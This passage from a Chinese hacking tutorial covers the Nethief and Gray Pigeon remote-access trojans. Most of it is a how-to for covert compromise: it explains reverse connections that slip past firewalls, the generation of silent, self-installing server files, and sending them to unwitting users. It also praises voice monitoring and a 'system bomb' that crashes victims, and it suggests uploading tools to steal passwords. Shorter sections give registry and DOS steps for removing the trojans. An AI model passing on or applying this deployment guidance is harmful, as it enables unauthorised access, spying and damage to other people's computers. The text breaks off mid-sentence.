

## 1.3 别具特色的国产木马网络神偷

#### 一、软件简介

网络神偷是一个别具特色的远程文件访问工具（见图 1-3-1），该软件之所以被称为“网络神偷”，皆因其出色的隐蔽性，可谓来无影，去无踪，“神偷”由此扬名“江湖”！



网络神偷有别于其它木马的最重要的一个原因（也是其隐蔽性非常好的一个原因），是它采用了“反弹端口”原理：由服务端主动连接客户端，因此可以穿过防火墙，在 Internet 上甚至可以访问局域网内部的计算机！

除此以外，先进的服务端上线通知功能也使其成为国产木马中的异类：服务端通过 UDP 协议发消息给客户端，在“服务端在线列表”里可以看到服务端的主机名、互联网的 IP 地址、局域网的 IP 地址、地址位置、上线时间、在线时长，所有信息一目了然。这种独特的方法可不是一般木马软件所采用的 Email 通知方式能比拟的，更隐蔽、实时性更高是其最大特点。

#### 二、软件特色介绍

- 1. 一般木马软件原理

服务端运行后，会在本机打开一个网络端口监听客户端的连接（时刻等待着客户端的连接）。连接建立后，客户端可用这个通道向服务端发送命令并接收返回数据，即可实现远程访问。

- 2. 网络神偷的原理

我们知道，传统型的木马不能访问装有防火墙和在局域网内部的服务端主机，但作为国内第一款反弹端口木马的网络神偷就不一样了，对它来说这简直就是小菜一碟！为什么反弹端口木马会有这个本事呢？作者经过分析防火墙的特性后发现：大多数的防火墙对于由外面连入本机的连接往往会进行非常严格的过滤，但是对于由本机连出的连接却疏于防范（当然也有的防火墙两方面都很严格）。于是，与一般的木马相反，反弹端口型木马的服务端（被控制端）使用主动端口，客户端（控制端）使用被动端口。当要建立连接时，由客户端通过 FTP 主页空间告诉服务端：“现在开始连接我吧！”，并进入监听状态，服务端收到通知后，就会开始连接客户端。为了隐藏起见，客户端的监听端口一般开在 80，这样，即便用户使用端口扫描软件检查自己的端口，发现的也是类似“TCP 服务端的 IP 地址:1026 客户端的 IP 地址:80 ESTABLISHED”的信息，稍微疏忽一点你就会以为是自己在浏览网页。防火墙也会如此认为，我想大概没有哪个防火墙会不给用户向外连接 80 端口吧，嘿嘿。

看到这里，有人会问：既然不能直接与服务端通信，那如何告诉服务端何时开始连接自己呢？答案是：

通过主页空间上的文件实现的。当客户端想与服务端建立连接时，它首先登录到 FTP 服务器，写主页空间上面的一个文件，并打开端口监听，等待服务端的连接；服务端定期用 HTTP 协议读取这个文件的内容，当发现是客户端让自己开始连接时，就主动连接，如此就可完成连接工作。

该软件用的就是这种“反弹端口”原理，可以穿过防火墙，甚至还能访问局域网内部的电脑。请您注意，一般木马可不能访问局域网内部的电脑哦，即局域网内部的电脑即便中了木马，非本网内的客户端是无法连接上的。由此可以看出，网络神偷的这个功能非常厉害！

### 3. 该软件的服务端上线通知原理

现在大多数木马最常用的方法是采用 E-mail 通知方式，即服务端上网后，发送自己的 IP 地址到事先指定的邮箱，客户端使用者只要去收信就行了。这种方法虽然最常用，但对木马而言有很大的不足：首先 E-mail 的实时性得不到保证，时慢时快，这与发信服务器的线路质量有很大关系。其次，现在越来越多的发信服务器设了“发信认证”功能，发信也要邮箱的密码（原来只有收信才要），这就给服务端发信增加了困难，服务端不带密码无法发送，带密码则有可能被别人破出来。

网络神偷用的是另一种更先进、更隐蔽的方法：UDP 通知。客户端上线后，会将自己的 IP 地址写到主页空间的指定文件里，服务端定期读取这个文件的内容，就可得到客户端的 IP 地址，并将自己的一些其它信息（主机名、IP 地址、上线时间等等）用 UDP 协议发送给客户端。客户端接收后，将数据解释并显示在“服务端在线列表”里，服务端情况一目了然。可能有人会担心：主页空间上的文件谁都可以访问（就像浏览网页），自己的 IP 地址会不会让别人看到？这个问题作者已经想到，所有可能被别人看到的数据（包括主页空间上的）都已经加密了，就算别人拿到了也没用。而且数据加密密码是由用户自行设置的，就连软件作者也无法破解。从这个角度来讲，将网络神偷作为远程控制工具使用的确不错。

### 三、使用该软件的一个前提：

要使用该软件，你必须有一个支持 FTP 方式登录的主页空间才行。现在网上有很多提供免费个人主页空间的网站（在搜狐、新浪等搜索引擎中，查询“免费主页”“主页空间”等关键词就可以找到一大堆），大多也都支持 FTP 方式登录维护，申请一个就可以了，具体申请方法请参见相应网站的说明。

### 四、使用说明：

- 1. 开始设置：

软件使用前，必须要进行设置，就是告诉软件你所用的主页空间的一些情况。第一次运行软件时会自动弹出“网络神偷设置向导”，根据向导的提示一步步进行，就可以成功地完成设置。

- 2. 生成并运行服务端：

软件在下载安装后是没有服务端的，只有客户端 Nethief.exe。服务端要在客户端设置完成后，由用户在客户端里生成（通过点击“网络”→“生成服务端”或工具栏按钮生成）。生成时，可以自定义一些设置，服务端默认的文件名为 Nethief_Server.exe，可以在生成时或生成后任意改名。

服务端运行后不会显示任何信息，看上去好像没有反应，其实它已经将自己复制到系统里面了，并且会在每次开机时自动运行，此时可以将拷过去的服务端删除。

- 3. 连接服务端：

当服务端出现在“服务端在线列表”时，由于“服务端上线通知”采用的是无连接 UDP 协议，所以此时并没有与服务端建立连接（TCP 连接）。想访问服务端，就必须先和它建立连接。具体的方法是：先选中“服务端在线列表”中的服务端，按“添加主机”按钮，就会把它添加到文件管理器中；切换到文件管理器界面，双击此服务端节点（或单击左边的“+”号）就会开始等待服务端的连接。如果一切正常，即可连接成功。如果等进度条走完还没有收到服务端的连接，可能是对方已经下线，或是由于其它各种未知原因不能连接。

### 4. 文件操作：

因为该软件是针对远程文件访问的，所以在这方面功能异常强大。该软件在设计上高度模仿 Windows 资源管理器，但有一点不同，它不支持右键菜单，大部分操作可以通过工具栏、主菜单或快捷键完成。网络神偷可对本地及远程驱动器进行各种文件操作（见图 1-3-2），如新建、复制、剪切、粘贴、删除、重命名、查找文件或文件夹、远程运行文件、修改文件或驱动器属性……一切操作都如同操作本地文件一样方便自如。


图 1-3-2

### 五、如何清除网络神偷

- 1. 第一种方法：如果中了网络神偷，可以下载网络神偷客户端并运行，上网后，在客户端的“服务端在线列表”里看能否找到自己。如果能，可以与本机连接上，再用菜单“网络”→“远程卸载”（见图 1-3-3），就可以彻底清除。
- 2. 第二种方法：下载金山毒霸网络神偷专杀工具。在这里下载：http://gz.iduba.net/download/othertools/Duba_Nethief.EXE。
- 3. 第三种方法：网络神偷当然也可以手工清除。运行服务端程序后会在注册表 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 下建立字符串值“internet”，其值为 "internet.exe /s"，将该字符串删除；然后到纯 DOS 下删除其自动程序 C:\WINDOWS\SYSTEM\INTERNET.EXE。OK，和“神偷”说再见吧。



图 1-3-3

### 六、常见问题解答

- 1. 我想将远程主机上的服务端卸载该怎么做？  
  - 答：先与它连接上，再用菜单“网络”→“远程卸载”，就可以彻底清除。
- 2. 误运行了服务端有危险吗？  
  - 答：因为该软件的原理与其它同类软件不同，所以它只可以独自享受，不能大家分享。这可以保证中木马机子的安全（不会被别人进入），所以，即使误运行了服务端也不要怕。
- 3. 网络神偷能突破所有的局域网吗？  
  - 答：当然不可能！因为代理服务器的设置是各种各样的，具体环境可能有很大的不同，该软件只能访问“透明代理”的局域网。何为“透明代理”？就是在分机上代理服务器好像是不存在的，对用户是透明的。这种代理方式最大的特点就是不用在分机的软件上设置代理配置（例如 IE），而可以像直接上网一样直接地使用。这是局域网最常用的代理方式（大多数网吧都是这样的）。
- 4. 除了下载客户端进行检查，难道该软件就查不出来了吗？

答：当然不是！目前最新的天网个人防火墙增加了应用程序规则功能，如果本机有程序要访问网络它就会报警，当然这个程序可能是合法程序（例如 IE），只有当用户设置“以后都允许”，它才不会再次询问。对于有这种功能的防火墙，当服务端试图连接时就会被发现（见图1-3-4），如果你会使用的话，可以防得住网络神偷的。



图1-3-4

另外，针对网络神偷，金山毒霸出了专门的查杀工具，可以查杀网络神偷。不过，要保证自己的查杀工具是最新的才行，否则还是不行的，因为网络神偷升级很快，目前最新版为 V2.7。

### 5. 我已经和对方连接上，可以访问它的文件，但我想获取它的密码该怎么办？

答：网络神偷是针对远程文件访问的，所以没有加入这方面的功能，你可以配合其他软件来实现你想要的功能，把其他软件上传后远程运行就可以了。

### 6. 我用的是 Win95，一运行就说程序出错。重装了一遍系统后还是这样，该怎么办？

答：该软件需要 Winsock2.2，Win95 自带的是 Winsock1.1 版，请去微软网站下载 Winsock2 升级包。（http://www.microsoft.com/windows/downloads/bin/W95ws2setup.exe）

### 1.4 远程控制新秀——“灰鸽子”图文教程

说道“灰鸽子”，我先插一段：最早出现的是灰鸽子（纪念版），后来作者又开发了灰鸽子（挺进版）。由于挺进版加上了穿过局域网控制内部机器的功能，又是第一个使用域名来储存客户端 IP 地址的，所以有些网友会觉得既陌生又神秘，下面就请跟我一起去揭开灰鸽子（挺进版）这个神秘软件的面纱。

#### 一、灰鸽子（挺进版）的文件

- 主要包括 3 个文件：P_Client.exe、Server.exe、Operate。
- P_Client.exe：客户端文件。
- Server.exe：服务端文件，如果你想控制对方就可以配置一下，让对方运行，你就可以用客户端控制它了！
- Operate：主要是记录软件配置的，我们一般不用管。

程序界面（P_Client.exe）如图1-4-1所示，注释很明了。下面我们利用这个工具来一次“自动上线”式的控制吧！这种控制方式是这个软件的一大特色，是其他控制软件不太有的（和“网络神偷”的差不多）。

#### 二、注册域名



图1-4-1

在配置服务器程序之前，如果你没有域名可用的话，请随我注册一个免费的域名吧！

- 1. 点击工具栏上的第三个按钮！在程序界面里的图片上注明了注册域名、更新 IP 到域名、主机搜索的那个按钮！

按了按钮后你会看见如图1-4-2所示的界面，点击“注册域名”选项卡，你会看见如图1-4-3所示的界面！现在我们就来注册一个域名吧，可以点击“.126.com”来改变申请域名的后缀。现在我们填好域名、密码、E-mail，就可以按“注册域名”按钮了！完成后，请注意注册结果框里的提示信息！如果成功的话，大家往下看；注册失败请换个域名试试！





图1-4-2

图1-4-3

#### 三、配置服务器程序

好的，现在大家有了域名了，可以配置服务端程序了！大家在程序界面里看到了配置服务端程序的按钮了吧！点它，跟着我们点“下一步”继续吧！按图1-4-4所说的做吧，这时我们已经完成了最关键的一步了！为了节省时间，大家可以一直按“下一步”按钮到出现图1-4-5所示的界面为止！现在按图1-4-5说的去做的话，我们配置服务器的工作就完成了！现在我们要做的就是把我们配置的“Server.exe”让对方运行了。





图1-4-4

图1-4-5

#### 四、等待自动上线

我们现在已经把我们刚配置的服务器端程序发给了一个在网吧上网的朋友，如果网友已经打开了我们发过去的服务端，应该在一分钟之内自动上线；如果“文件管理器”中多出了绿屏的主机，就是自动上线的主机了。我们选中“文件管理器”中自动上线的主机进行连接，如果不出错的话应该可以看到它的驱动器列表，不仅可以管理文件，还可以进行其他控制。

#### 五、其他功能介绍

- 1. **命令控制台**：这个是木马必须携带的工具，不过灰鸽子（挺进版）的更加完整。
- 2. **MS-DOS 控制台**：灰鸽子是我见过的 DOS 命令最全的木马（比 way 木马还完善），这下熟悉 DOS 的朋友可以大显身手了。
- 3. **注册表模拟**：这也是现代木马的标志，可以进行注册表编辑，高级黑客往往通过它来夺取系统的控制权。
- 4. **二人世界**：继承了冰河等木马的聊天功能，不过灰鸽子有一个比较新颖的构思就是：语音监控！
- 5. **系统炸弹**：以前的木马总给人一种间谍的感觉，就像 007 似的。不过这款灰鸽子（挺进版）又增添了 Win98 攻击功能。它可以在被别人发现它的时候，给予凶猛的火力攻击，让对方蓝屏或系统崩溃。再也不用像以前种木马的时候还担惊受怕了。不过我觉得还要增强一点火力。如果能把 iphacker、蜗牛3等炸弹的优点集合起来，我想这款软件会更加完美！

#### 六、中招后解决方法

中招后大家也不要紧张，请跟我三步走！（顺序一定不能自己随意调整，否则……）不要嫌麻烦，如果清除不彻底的话，你还真拿它没办法。很有可能你的机器再不能运行程序了。

- 1. **删除服务端程序**

由于在 Windows 下灰鸽子的服务端处于运行状态，无法直接删除，我们要进入纯 DOS 状态，执行下面的命令删除灰鸽子的服务端程序：

```bash
cd c:\windows\system
attrib -r -s -h kernel32.exe
attrib -r -s -h notepad.exe
del kernel32.exe
del notepad.exe
```

另外，我们如果直接删除了灰鸽子的服务端程序，而服务端又设置了 exe 文件关联的话，将会导致注册表编辑器无法运行，所以我们要删除灰鸽子服务端程序前，先将注册表编辑器重新命名，以便以后对注册表进行修改，操作命令如下：

```bash
ren c:\windows\regedit.exe regedit.com
```

- 2. **删除注册表中的启动键值**

由于我们前面修改了注册表编辑器的名称，所以这里运行注册表编辑器时要打开“开始”菜单中的“运行”，然后输入“regedit.com”来打开注册表编辑器。启动注册表编辑器后依次打开 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`，在右边窗口中删除名称为“LoadWindows”的键值就可以了。

- 3. **清除文件关联**

有人告诉我灰鸽子总是删不掉，主要原因就是没有解除掉它设置的文件关联启动。灰鸽子可以设置和 4 种文件相关联：exe 类型、txt 类型、ini 类型、inf 类型。其中 exe 类型可以和其他 3 种类型同时存在。

- 1. 解除 exe 关联  
  - 启动注册表编辑器，然后找到 `HKEY_CLASSES_ROOT\Exefile\Shell\Open\Command` 主键，查看其默认键值是不是系统默认的“`%1 %*`”，如果被修改，则要改回默认值。
- 2. 解除 txt 关联  
  - 打开注册表的 `HKEY_CLASSES_ROOT\Txtfile\Shell\Open\Command` 主键，其默认值的正常数据应该为“`C:\Windows\notepad.exe %1`”，如果不是，请改为正确数据。
- 3. 解除 ini 关联  
  - ini 文件的关联配置数据保存在注册表 `HKEY_CLASSES_ROOT\Inifile\Shell\Open\Command` 主键下，默认数据也是“`C:\Windows\notepad.exe %1`”，如果被修改也要改回来。
- 4. 解除 inf 关联  
  - 打开注册表的 `HKEY_CLASSES_ROOT\Inffile\Shell\Open\Command` 主键，和 ini、txt 文件关联一样，照着上面的修改就行了，我也不多说了。

### 1.5 近墨者“黑”

#### 一、被骗上当

将下载后的文件解压后，我们发现一共有两个主要文件夹：客户端、来去无踪。从文件夹的名称上我们可以大概猜到它也许是一款木马软件。打开“客户端”文件夹一看，果不其然！但是打开“来去无踪”文件夹，却让人很费解，发现里面有一个名为 GoTo.exe 的可执行文件；并且还有一个 Readme.txt 文件。打开一看，说明这是一款可以清除 IE、运行等记录的软件，这与木马不相干啊。出于好奇心，我打开一看（如图1-5-1），还真是一款不错的清除软件，只需要选中上方要清除的软件图标，在主界面上就可以显示出清除的内容。各位朋友现在可能和我一样在想，这没有什么不妥啊！殊不知，这就埋下了祸害的种子！因为在我运行了 GoTo.exe 